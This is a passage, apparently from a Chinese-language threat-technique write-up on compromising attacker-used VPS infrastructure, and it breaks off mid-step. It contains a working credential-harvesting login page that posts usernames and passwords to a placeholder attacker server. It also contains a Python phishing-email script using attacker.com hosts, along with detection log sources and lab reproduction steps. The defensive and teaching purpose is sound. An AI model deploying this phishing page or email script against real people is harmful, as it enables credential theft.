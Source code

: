     <html>
    <head><title>TargetCorp Login</title></head>
    <body>
        <form id="login-form">
            <input type="text" id="username" placeholder="Username">
            <input type="password" id="password" placeholder="Password">
            <input type="submit" value="Login">
        </form>
        <script>
            document.getElementById('login-form').addEventListener('submit', function(e) {
                e.preventDefault();
                var data = {
                    username: document.getElementById('username').value,
                    password: document.getElementById('password').value
                };
                fetch('http://<VPS_IP>/collect', {
                    method: 'POST',
                    body: JSON.stringify(data)
                });
            });
        </script>
    </body>
    </html>
    ```
- **案例场景**：
  - 攻击者通过钓鱼获取DigitalOcean VPS凭据，部署Cobalt Strike C2服务器，控制受感染主机。
  - 利用未修补的Apache漏洞入侵VPS，托管钓鱼网站，窃取员工凭据。

## 检测日志
VPS入侵活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **VPS管理日志**：
  - 记录异常的登录尝试、配置变更或服务安装。
- **网络流量日志**：
  - 检测与受损VPS的异常通信，如C2流量或钓鱼页面访问。
- **DNS日志**：
  - 记录解析到受损VPS IP的异常域名查询。
- **邮件服务器日志**：
  - 监控针对VPS管理员账户的钓鱼邮件。
- **防火墙/IDS日志**：
  - 检测针对VPS的漏洞利用尝试或异常流量模式。

## 测试复现
以下是在受控授权环境中模拟VPS入侵的步骤：
1. **环境准备**：
   - 租用测试VPS（如DigitalOcean、阿里云ECS），配置Ubuntu系统。
   - 模拟弱配置（如默认SSH密码或开放RDP端口）。
2. **凭据窃取模拟**：
   - 发送伪装的钓鱼邮件，诱导管理员泄露VPS凭据：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("Reset your password: http://fake-vps.com/reset")
     msg['Subject'] = 'Urgent: VPS Account Reset'
     msg['From'] = 'support@fake-vps.com'
     msg['To'] = 'admin@test-vps.com'
     with smtplib.SMTP('smtp.attacker.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
3. **漏洞利用模拟**：
   - 使用Metasploit攻击弱配置的SSH服务：
     ```bash